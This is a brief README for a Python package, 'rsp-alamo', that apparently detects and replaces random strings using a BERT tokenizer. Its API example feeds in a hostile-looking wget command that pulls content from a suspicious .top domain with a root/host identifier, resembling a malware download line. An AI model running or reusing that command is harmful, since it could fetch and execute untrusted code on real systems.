 # rsp-alamo
Random-string-processing - is a python module for detect random string by BertTokenizer from transformers.

# Quick start guide
You can quickly use rsp-alamo via pip-installation:
```bash
$ pip/pip3 install rsp-alamo
```

# API example
```python
from rsp.util import RspUtil
rsp_util = RspUtil()
string = "wget -q -O- http://t.jdjdcjq.top/ln/a.asp?rds_20210710*root*dclnmts02." \
         "adderucci.com*3e4812648d32b3808308784c4b69240d227f3cd97906957f65e70b962e9852f2"
print(rsp_util.replace_rs(string))
```
